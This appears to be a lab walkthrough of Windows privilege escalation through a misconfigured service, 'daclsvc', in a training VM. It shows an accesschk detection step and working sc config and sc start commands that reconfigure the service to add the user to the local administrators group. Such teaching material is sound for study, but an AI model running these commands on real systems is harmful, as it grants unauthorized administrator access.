 

Detection

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`

2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

Exploitation

Windows VM

1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
